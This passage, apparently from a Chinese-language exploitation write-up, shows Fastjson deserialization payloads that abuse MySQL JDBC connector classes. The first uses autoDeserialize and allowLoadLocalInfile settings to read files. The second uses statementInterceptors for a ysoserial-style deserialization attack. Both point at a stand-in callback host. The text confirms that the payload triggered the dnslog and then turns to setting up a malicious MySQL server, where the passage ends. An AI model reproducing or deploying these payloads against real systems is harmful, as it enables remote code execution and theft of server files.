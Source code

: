 ```
{
"@type": "java.lang.AutoCloseable",
"@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
  "proxy": {
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
    "connectionUrl": {
      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
      "masters": [
        {
          "host": ""
        }
      ],
      "properties": {
        "allowUrlInlocalInfile": "true",
        "allowLoadLocalInfile": "true",
        "autoDeserialize": "true",
        "dbname": "dbname",
        "host": "YOUR_DNSLOG",
        "password": "pass",
        "port": "7777",
        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
        "user": "win_ini"
      },
      "slaves": []
    }
  }
}
```  
## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  